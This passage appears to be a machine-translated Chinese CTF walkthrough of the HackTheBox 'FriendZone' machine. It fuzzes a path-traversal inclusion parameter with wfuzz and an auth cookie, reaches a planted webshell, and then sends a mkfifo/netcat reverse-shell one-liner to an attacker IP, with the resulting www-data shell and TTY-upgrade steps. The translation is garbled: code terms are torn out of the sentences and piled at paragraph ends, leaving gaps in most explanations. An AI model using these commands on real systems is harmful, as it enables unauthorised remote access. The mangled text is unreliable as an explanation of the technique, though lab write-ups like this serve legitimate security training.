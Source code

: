 ![1549992654973](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2F0xdf.gitlab.io%2Fimg%2F1549992654973.png)

即使我不知道目录在磁盘上的位置，我也可以做一些猜测，并通过模糊测试来获得它。例如，我假设共享是一个名为 的文件夹。我将开始，它可能在根或一个级别上。因此，我将从我的框中列出一个单词列表：`Development`

    root@kali# ls -d /* > root_dirs 
    root@kali# echo "/" >> root_dirs
    

然后我可以使用以下网址：.我将使用向上移动三个级别，大概是系统根目录，然后尝试每个目录（包括 ），然后.我将添加该参数以提供一些要查找的输出。如果没有输出，则报告 0 行。我将用 隐藏它。它在以下位置找到该目录：`wfuzz``https://administrator1.friendzone.red/dashboard.php?image_id=&pagename=../../..FUZZ/Development/0xdf&cmd=id``../``FUZZ``/``Development/0xdf``cmd=id``wfuzz``--hl 0``/etc`

    root@kali# wfuzz --hl 0 -c -w ./root_dirs -H 'Cookie: FriendZoneAuth=e7749d0f4b4da5d03e6e9196fd1d18f1' 'https://administrator1.friendzone.red/dashboard.php?image_id=&pagename=../../..FUZZ/Development/0xdf&cmd=id'
    
    ********************************************************
    * Wfuzz 2.3.4 - The Web Fuzzer                         *
    ********************************************************
    
    Target: https://administrator1.friendzone.red/dashboard.php?image_id=&pagename=../../..FUZZ/Development/0xdf&cmd=id
    Total requests: 27
    
    ==================================================================
    ID   Response   Lines      Word         Chars          Payload    
    ==================================================================
    
    000004:  C=200      1 L       40 W          403 Ch        "/etc"
    
    Total time: 0.315563
    Processed Requests: 27
    Filtered Requests: 26
    Requests/sec.: 85.56111
    

### 壳

当然，我想要一个真正的贝壳。我将使用我从[反向外壳备忘单](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)转到的转到，并访问：（记住将编码为）：`https://administrator1.friendzone.red/dashboard.php?image_id=&pagename=../../../etc/Development/0xdf&cmd=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>%261|nc 10.10.14.7 443 >/tmp/f``&``%26`

    root@kali# nc -lnvp 443
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.123.
    Ncat: Connection from 10.10.10.123:45840.
    /bin/sh: 0: can't access tty; job control turned off
    $ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    

在 shell 升级后（， ， ， ， ， 如果询问，请输入终端类型的“屏幕”），我得到了一个完整的外壳。我可以得到用户.txt：`python -c 'import pty;pty.spawn("bash")'``ctrl-z``stty raw -echo``fg``reset`

